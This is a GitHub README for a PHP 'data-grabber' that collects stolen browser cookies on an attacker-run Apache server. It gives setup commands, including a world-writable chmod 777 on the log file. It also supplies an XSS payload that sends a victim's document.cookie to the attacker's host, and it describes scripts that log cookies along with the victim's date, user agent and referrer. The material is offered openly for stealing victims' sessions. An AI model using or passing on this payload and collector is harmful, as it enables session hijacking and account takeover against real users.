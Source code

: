 # data-grabber
web data grabber in PHP

## usage
#### step1 - start web server on your own web server
```
sudo apt update && apt upgrade -y
sudo apt install apache2
sudo systemctl start apache 2
```

#### step2 
clone the repository in ``` /var/www/html/ ``` directory
and go to the repository directory then give 'cookie.txt' read/write premission.
```
chmod 777 cookie.txt
```

#### step3
now if any cookie or data sent to your webserver by your link, it'll save in the cookie file.
example of a link:
```
http://192.168.1.135/p1.php?txt=your-data
```

#### Payload
here is some payload for vulnerabilities like XSS to steal the cookies of your victim:
```
<script>window.location="http://192.168.1.135/wdata-grabber/p1.php?txt="+document.cookie</script>
```

### p1.php
p1.php is a basic version of cookie stealer that receives and stores just the value of the txt parameter.

### p2.php
p2.php stores more data from the victim. you can store ``` date user-agent referrer ``` too.
